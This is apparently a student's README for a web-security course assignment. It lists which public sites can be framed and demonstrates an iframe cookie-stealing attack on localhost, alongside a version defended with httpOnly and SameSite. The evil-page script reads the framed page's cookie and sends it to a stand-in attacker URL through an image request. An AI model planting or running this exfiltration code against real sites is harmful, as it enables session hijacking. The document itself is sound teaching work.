





# Assignment 4, CS 495/595 Web Security, Spring 2021

## Which public sites are framable?

### List of files in Framable directory
 * [html_files](framable/html_files): 100 HTML files
 * [http-responses](framable/http-responses): curl responses of 100 sites
 * frame_report.sh: collect X-frame-options and CSP
 * main.html: Place-holder HTML file that was used to create 100 HTML files

### Youtube Video: https://youtu.be/XFNSPPBbw-k

### Summary



### Framable Sites 




| Framable Site          |
|------------------------|
| alibaba.com            |
| allaboutcookies.org    |
| ap.org                 |
| asahi.com              |
| biglobe.ne.jp          |
| bing.com               |
| blog.fc2.com           |
| brandbucket.com        |
| chron.com              |
| cloudflare.com         |
| disney.com             |
| disqus.com             |
| dw.com                 |
| e-recht24.de           |
| economist.com          |
| es.wikipedia.org       |
| example.com            |
| fr.wikipedia.org       |
| harvard.edu            |
| id.wikipedia.org       |
| iso.org                |
| m.wikipedia.org        |
| marriott.com           |
| metro.co.uk            |
| nationalgeographic.com |
| nginx.org              |
| oreilly.com            |
| qq.com                 |
| ria.ru                 |
| secureserver.net       |
| sfgate.com             |
| so-net.ne.jp           |
| sputniknews.com        |
| thefreedictionary.com  |
| un.org                 |
| washingtonpost.com     |
| welt.de                |
| wikia.com              |
|                        |


### Not Framable Sites 
  



| Site                 | Explaination                                                                                                                                        |
|----------------------|-----------------------------------------------------------------------------------------------------------------------------------------------------|
| icann.org            | 301                                                                                                                                                 |
| newsweek.com         | x-frame-options: SAMEORIGIN                                                                                                                         |
| gstatic.com          | 404                                                                                                                                                 |
| xbox.com             | 404                                                                                                                                                 |
| bitly.com            | 405                                                                                                                                                 |
| entrepreneur.com     | content-security-policy: frame-ancestors 'self'                                                                                                     |
| gizmodo.com          | content-security-policy: frame-ancestors 'self'                                                                                                     |
| medium.com           | content-security-policy: frame-ancestors medium.com                                                                                                 |
| nypost.com           | content-security-policy: frame-ancestors nypost.com *.nypost.com *.decider.com *.pagesix.com http://www.stumbleupon.com https://www.stumbleupon.com |
| nydailynews.com      | nydailynews.com sent an invalid response, Provisional headers are shown                                                                             |
| transandfiestas.ga   | transandfiestas.ga took too long to respond.                                                                                                        |
| about.me             | x-frame-options: DENY                                                                                                                               |
| accounts.google.com  | x-frame-options: DENY                                                                                                                               |
| aliexpress.com       | x-frame-options: DENY                                                                                                                               |
| facebook.com         | x-frame-options: DENY                                                                                                                               |
| github.com           | x-frame-options: deny                                                                                                                               |
| mail.google.com      | x-frame-options: DENY                                                                                                                               |
| nature.com           | x-frame-options: DENY                                                                                                                               |
| nifty.com            | x-frame-options: DENY                                                                                                                               |
| offset.com           | x-frame-options: DENY                                                                                                                               |
| over-blog-kiwi.com   | x-frame-options: DENY                                                                                                                               |
| prezi.com            | x-frame-options: DENY                                                                                                                               |
| amazon.fr            | x-frame-options: SAMEORIGIN                                                                                                                         |
| apple.com            | x-frame-options: SAMEORIGIN                                                                                                                         |
| fda.gov              | x-frame-options: SAMEORIGIN                                                                                                                         |
| get.google.com       | x-frame-options: SAMEORIGIN                                                                                                                         |
| myaccount.google.com | x-frame-options: SAMEORIGIN                                                                                                                         |
| namesilo.com         | x-frame-options: SAMEORIGIN                                                                                                                         |
| youtube.com          | x-frame-options: SAMEORIGIN                                                                                                                         |
| abc.net.au           | x-frame-options: SAMEORIGIN	                                                                                                                         |
| box.com              | x-frame-options: SAMEORIGIN	                                                                                                                         |
| businessinsider.com  | x-frame-options: SAMEORIGIN	                                                                                                                         |
| businesswire.com     | x-frame-options: SAMEORIGIN	                                                                                                                         |
| cisco.com            | x-frame-options: SAMEORIGIN	                                                                                                                         |
| draft.blogger.com    | x-frame-options: SAMEORIGIN	                                                                                                                         |
| e-monsite.com        | x-frame-options: SAMEORIGIN	                                                                                                                         |
| ebay.com             | x-frame-options: SAMEORIGIN	                                                                                                                         |
| engadget.com         | x-frame-options: SAMEORIGIN	                                                                                                                         |
| google.ca            | x-frame-options: SAMEORIGIN	                                                                                                                         |
| google.co.in         | x-frame-options: SAMEORIGIN	                                                                                                                         |
| google.it            | x-frame-options: SAMEORIGIN	                                                                                                                         |
| groups.yahoo.com     | x-frame-options: SAMEORIGIN	                                                                                                                         |
| hp.com               | x-frame-options: SAMEORIGIN	                                                                                                                         |
| imageshack.com       | x-frame-options: SAMEORIGIN	                                                                                                                         |
| istockphoto.com      | x-frame-options: SAMEORIGIN	                                                                                                                         |
| jimdofree.com        | x-frame-options: SAMEORIGIN	                                                                                                                         |
| nih.gov              | x-frame-options: SAMEORIGIN	                                                                                                                         |
| office.com           | x-frame-options: SAMEORIGIN	                                                                                                                         |
| orange.fr            | x-frame-options: SAMEORIGIN	                                                                                                                         |
| qz.com               | x-frame-options: SAMEORIGIN	                                                                                                                         |
| samsung.com          | x-frame-options: SAMEORIGIN	                                                                                                                         |
| sapo.pt              | x-frame-options: SAMEORIGIN	                                                                                                                         |
| stackoverflow.com    | x-frame-options: SAMEORIGIN	                                                                                                                         |
| tes.com              | x-frame-options: SAMEORIGIN	                                                                                                                         |
| thedailybeast.com    | x-frame-options: SAMEORIGIN	                                                                                                                         |
| theguardian.com      | x-frame-options: SAMEORIGIN	                                                                                                                         |
| undeveloped.com      | x-frame-options: SAMEORIGIN	                                                                                                                         |
| unesco.org           | x-frame-options: SAMEORIGIN	                                                                                                                         |
| utexas.edu           | x-frame-options: SAMEORIGIN	                                                                                                                         |
| wikihow.com          | x-frame-options: SAMEORIGIN	                                                                                                                         |
| www.weebly.com       | x-frame-options: SAMEORIGIN	                                                                                                                         |
| xinhuanet.com        | xinhuanet.com took too long to respond.                                                                                                             |


## Frame attack

### Youtube Video: https://youtu.be/yqCEmIgU0Wc

### Stealing Cookie

#### Players:
* [evil_site.html](frame-attack/evil_site.html): Page stealing cookies of an iframed page (unsafe_site.html) 
* [unsafe_site.html](frame-attack/unsafe_site.html): Page with unprotected cookie
 * [server_1.js](frame-attack/server_1.js): Server hosting evil site on localhost:8000  
 * [server_2.js](frame-attack/server_2.js): Server hosting safe and unsafe pages on localhost:5000 

#### Steps

* Set-up victim page
```diff
<!DOCTYPE html>
<html lang="en">
<head>
    <title>Frame-attack</title>
</head>
<body>
	<h1>My cookies are getting stolen!</h1>
	<br>
	<script type="text/javascript">
		document.write(document.cookie);
</script>
</body>
</html>
```

* Host the victim page and set the cookie for the page. I have used `cookie-parser` npm package to set the cookies.
```diff
const port = 5000
const app = express()
app.use((cookieParser()))

app.get('/unsafe', (req, res) => {
	res.cookie('login','SecretAdmin')
    stream = createReadStream('unsafe_site.html')
    stream.pipe(res)  
})
```


* Iframe the victim site on the evil site. Add javascript to steal the cookies of an iframed page.
```diff
<!DOCTYPE html>
<html lang="en">
<head>
    <title>Frame-attack</title>
</head>
<body>
	<h1>Assignment 4, CS 495/595 Web Security, Spring 2021</h1>
	<br>
    <h2>Let steal some cookies using iframes!</h2>

	<hr>
	     <p>Below iframe cookie is unsafe</p>
	<script>
		const iframe = document.createElement('iframe')
		iframe.src = 'http://localhost:5000/unsafe'
		document.body.appendChild(iframe)

		setTimeout(function() {
	    const p = document.createElement('p')
	    p.innerHTML = iframe.contentDocument.cookie
	    document.body.appendChild(p)

	    new Image().src = 'https://attacker.localhost:5000/steal?cookie=' + iframe.contentDocument.cookie
			}, 5000);

		document.write(iframe.contentDocument.cookie)
		console.log(iframe.contentDocument.cookie)
	</script>

</body>
</html>

```
* Run the attack by hosting the evil site.
```diff
const app = express()

app.get('/', (req, res) => {
    stream = createReadStream('evil_site.html')
    stream.pipe(res)  
})
```
* Output



### Unsucessful Cookie Stealing

#### Players:
 * [evil_site1.html](frame-attack/evil_site1.html): Page trying to steal cookies of an iframed page (safe_site.html) 
 * [safe_site.html](frame-attack/safe_site.html): Page with protected cookie using httpOnly & Samesite (strict)
 * [server_1.js](frame-attack/server_1.js): Server hosting evil site on localhost:8000  
 * [server_2.js](frame-attack/server_2.js): Server hosting safe and unsafe pages on localhost:5000 

### Steps:

* Set-up victim page
```diff
<!DOCTYPE html>
<html lang="en">
<head>
    <title>Frame-attack</title>
</head>
<body>
	<h1>You cant steal my cookies!</h1>
	<br>
	<script type="text/javascript">
		document.write(document.cookie);
</script>
</body>
</html>
```

* Host the victim page and set the cookie for the page. To protect the cookie, I have included httpOnly and Samesite (strict) in Set-Cookie HTTP response header.
```diff
const port = 5000
const app = express()
app.use((cookieParser()))

app.get('/safe', (req, res) => {
	res.cookie('login','SecretAgent', {httpOnly: true, sameSite:'strict'})
	stream = createReadStream('safe_site.html')
    stream.pipe(res)  
})
```


* Iframe the victim site on the evil site (evil_site1.html). Add javascript to steal the cookies of an iframed page.
```diff
<!DOCTYPE html>
<html lang="en">
<head>
    <title>Frame-attack</title>
</head>
<body>
	<h1>Assignment 4, CS 495/595 Web Security, Spring 2021</h1>
	<br>
    <h2>Let steal some cookies using iframes!</h2>

	<hr>
     <p>Below iframe cookie is safe</p>
	<script>
		const iframe = document.createElement('iframe')
		iframe.src = 'http://localhost:5000/safe'
		document.body.appendChild(iframe)

		document.write(iframe.contentDocument.cookie)
		console.log(iframe.contentDocument.cookie)

		setTimeout(function() {
	    const p = document.createElement('p')
	    p.innerHTML = iframe.contentDocument.cookie
	    document.body.appendChild(p)

	    new Image().src = 'https://attack.localhost:5000/steal?cookie=' + iframe.contentDocument.cookie
			}, 5000);
	</script>
</body>
</html>
```

* Run the attack by hosting the evil site.
```diff
const app = express()

app.get('/1', (req, res) => {
    stream = createReadStream('evil_site1.html')
    stream.pipe(res)  
})
```

* Output

